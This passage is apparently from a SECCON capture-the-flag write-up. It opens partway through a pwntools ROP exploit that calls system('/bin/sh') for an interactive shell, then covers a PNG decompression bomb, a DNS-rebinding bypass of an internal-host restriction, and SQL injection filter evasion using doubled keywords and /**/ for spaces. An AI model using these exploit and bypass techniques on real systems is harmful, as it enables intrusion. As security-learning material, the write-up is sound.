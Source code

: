 ```python=
    pop_rdi,
    0,
    ppr, d , 0, e.plt.read,
    pop_rdi,
    d,
    system
)
pri( p )

y.sendafter( 'No such file!' , '/bin/sh\0' )

y.interactive()
```

## Misc

### pngbomb
We are given an png image. The image is `2147483647 x 32, 1-bit grayscale, non-interlaced`, but due to the DEFLATE algorithm of png format, the image itself is as small as `36MB`.

We can get the compressed data via `binwalk` (Bytes `0x29~`). It is a Zlib compressed data. Though we may not extract the data into a file, we can pipe it to our program, and read it as streaming data.



## Web

### Option-Cmd-U

Our target is to visit http://nginx/flag.php

And the `nginx`'s IP is `172.18.0.3`

We can use DNS-Rebinding to bypass restriction:

172.18.0.3 <---> any ip

=> `SECCON{what_a_easy_bypass_314208thg0n423g}`


### web_search

single quote:

- `'` => Error
- `''` => OK
- `'''` => Error
- `'#` => OK

So this is a SQL Injection challenge.

But it will filter `and`, `or`, `%20`, `,`, ....

We can use some trick to bypass it, e.g. `anandd` => `and`, `oorr` => `or`, and replace `%20` with `/**/`
